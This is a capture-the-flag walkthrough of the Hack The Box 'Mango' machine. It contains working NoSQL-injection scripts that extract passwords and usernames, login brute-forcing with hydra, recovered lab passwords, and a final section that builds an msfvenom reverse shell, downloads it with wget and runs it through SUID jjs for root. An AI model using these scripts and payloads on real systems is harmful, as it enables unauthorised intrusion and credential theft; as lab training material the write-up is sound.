# [Mango](https://app.hackthebox.eu/machines/214)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.162 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.162 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.162
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.162
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.162/  -C all --maxtime=120s --output=nikto.http.txt
nikto -h https://10.10.10.162/ -C all --maxtime=120s --output=nikto.https.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.162/  &
firefox https://10.10.10.162/ &
```

The HTTP site gives a 403 and the HTTPS site returns the following:


Looking at the source code for the HTTPS website shows a reference to `analytics.php`. Start a directory scanner looking for PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -k -q -z -o gobuster.https.txt -x php,txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u https://10.10.10.162/ &
gobuster dir -t 50 -q -z -o gobuster.http.txt -x php,txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.162/ &
```

This does not return much... Take a look at the SSL certification and see if there is any imformation leaks:

```bash
echo -n | openssl s_client -connect 10.10.10.162:443
```



There is a new hostname `staging-order.mango.htb` and username `admin@mango.htb`. Try adding this and rebrowsing:

```bash
sudo sh -c 'echo "10.10.10.162 mango.htb" >> /etc/hosts'
sudo sh -c 'echo "10.10.10.162 staging-order.mango.htb" >> /etc/hosts'
firefox http://mango.htb/  &
firefox http://staging-order.mango.htb/  &
firefox https://mango.htb/  &
firefox https://staging-order.mango.htb/  &
```

The `http://staging-order.mango.htb/` brings up a new site:


Trying some basic logins with `admin` does not work and does not display an error? Instead the page just refreshes? Try looking for other PHP files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.http.mango.txt -x php,txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://staging-order.mango.htb/ &
```

This returns some helpful hits:

```
/index.php (Status: 200)
/home.php (Status: 302)
/vendor (Status: 301)
/server-status (Status: 403
```

It seems like there is a backend since `home.php` has a HTTP 302 redirect to `index.php`. Try to bruteforce the login. Here is the relevant HTML from `index.php`:

```html
<form action="" method="POST">
<div class="form">
<input type="username" name="username" class="form-field animation a3" placeholder="Username">
<input type="password" name="password" class="form-field animation a4" placeholder="Password">
<p class="animation a5"><a href="#">Forgot Password</a></p>
<button class="animation a6" value="login" name="login">LOGIN</button>
</form>
```

This becomes the following bruteforce attempt:

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hydra staging-order.mango.htb http-form-post "/index.php:username=^USER^&password=^PASS^&login=login:Log in for ordering Sweet & Juicy Mango." -l admin -P rockyou.txt -vV -f
```

But this does not return any interesting results... Trying some basic SQL injection login bypasses also does not return an error or allow access:

```
' or 1=1 --
' or 1=1 #
" or 1=1 --
" or 1=1 #
```

Time to get serious... 

- https://github.com/payloadbox/sql-injection-payload-list#sql-injection-auth-bypass-payloads

However these also do not help... Running low on options here... Try NoSQL injection (not commong with PHP)?

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
- https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf

Catch a login request in BurpSuite:



Then try a basic NoSQL injection to get the following to happend in the backend (assuming MongoDB & NodeJS for example):

```javascript
// BEFORE SQL Injection
db.collection('users').find({
  "user": req.query.user, 
  "password": req.query.password
});
// AFTER SQL Injection
db.collection('users').find({
  "user": "bubba", 
  "password": {"&ne": ""}
});
```



Notice how this request now returns `location: home.php` in the HTTP response. Now browsing to `home.php` shows the following:



Not much to see here... Instead try to extract the password field for the `admin` user over NoSQL injection:

- https://book.hacktricks.xyz/pentesting-web/nosql-injection#extract-length-information

This becomes the following Python:

- **NOTE:** Trick here is escaping regex special characters in the request since the passwords in the backend DB may be hashed _or_ in plaintext: https://www3.ntu.edu.sg/home/ehchua/programming/howto/Regexe.html

```python
import string
import requests

TARGET = 'http://staging-order.mango.htb/index.php'
POOL = [c for c in string.printable if c not in string.whitespace]
REGEX_SPECIAL = ['.', '+', '*', '?', '^', '$', '(', ')', '[', ']', '{', '}', '|', '\\']

password = []
while True:
  done = False
  for c in POOL:
    s = requests.session()
    r = s.get(TARGET)
    # handle regex special characters
    if c in REGEX_SPECIAL:
      c = '\\' + c
    regex = '^' + ''.join(password) + c + '.*$'
    print(f'\r[.] Trying {"".join(password)}{c} ({regex}) ...', end='')
    r = s.post(TARGET, data={
      'username[$eq]': 'admin',
      'password[$regex]': regex,
      'login': 'login',
    })
    if 'Log in for ordering Sweet & Juicy Mango.' not in r.text:
      # handle regex special characters
      if c in REGEX_SPECIAL:
        password.append('\\' + c)
      else:
        password.append(c)
      print(f'\n[*] password: {"".join(password)}')
      done = True
      break
  if not done:
    break

print(f'\n[+] DONE: password is {"".join(password)}')
```

This returns the following password for `admin`:



Since the password given contains special characters, it is likely not a hash. Trying the password `t9KcS3>!0B#2` over SSH using `admin` does not work? Msybe there are other usernames that have passwords? Extend the script to enumerate users:

- **!!! NOTE**: This only find usernames by first match. This means the script will find `adam` before finding `admin` and find `admin1` instead of finding `admin`.

```python
import string
import requests

TARGET = 'http://staging-order.mango.htb/index.php'
POOL = [c for c in string.printable if c not in string.whitespace]
REGEX_SPECIAL = ['.', '+', '*', '?', '^', '$', '(', ')', '[', ']', '{', '}', '|', '\\']

for start in (string.ascii_lowercase + string.ascii_uppercase + string.digits):
  username = [start]
  print(f'\r[.] Trying usernames starting with {start} ...', end='')
  while True:
    done = False
    for c in POOL:
      s = requests.session()
      r = s.get(TARGET)
      # handle regex special characters
      if c in REGEX_SPECIAL:
        c = '\\' + c
      regex = '^' + ''.join(username) + c + '.*$'
      if len(username) > 1:
        print(f'\r[!] Trying {"".join(username)}{c} ({regex}) ...', end='')
      r = s.post(TARGET, data={
        'username[$regex]': regex,
        'password[$ne]': 'bubba',
        'login': 'login',
      })
      if 'Log in for ordering Sweet & Juicy Mango.' not in r.text:
        # handle regex special characters
        if c in REGEX_SPECIAL:
          username.append('\\' + c)
        else:
          username.append(c)
        print(f'\n[*] username: {"".join(username)}')
        done = True
        break
    if not done:
      break
  if len(username) > 1:
    print(f'\n[+] FOUND username {"".join(username)}')
```

Running this script produces the following:



So there is another user called `mango`? Try finding its password by modifying the first Python script to have the following NoSQL injection payload:

```
'username[$eq]': 'mango'
```

Re-running the script gives a new password:



So the password for `mango` is `h3mXK8RhU~f{]f5H` (**NOTE** remove the `\` escape characters from the script output). Trying these credentials over SSH gives access to the target but not `user.txt`:



Looking at `/etc/ssh/sshd_config` shows the following lines at the end:

```
PasswordAuthentication yes
AllowUsers mango root
```

It seems like the user `admin` is not allowed to SSH? Trying the same password of `t9KcS3>!0B#2` provides access using `su admin`:



Looking at SUID files in the `admin` group shows an interesting file:

```bash
find / -perm -u=s -group admin -type f -exec ls -lad {} \; 2>/dev/null
```



This `jjs` binary is a known path for escalation:

- https://gtfobins.github.io/gtfobins/jjs/

Since the SUID and SGID bits are set, make a payload that uses the SUID bit to get a reverse shell as `root`:

```bash
# run on kali
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=7777 \
         PrependSetuid=true \
         -f elf \
         -o bubba.root.elf
sudo python3 -m http.server 80
nc -nvlp 7777
# run on target as admin
wget -O /dev/shm/bubba.root.elf 10.10.14.25/bubba.root.elf
chmod +x /dev/shm/bubba.root.elf
echo "Java.type('java.lang.Runtime').getRuntime().exec('/dev/shm/bubba.root.elf').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```

This returns a shell as `root`:



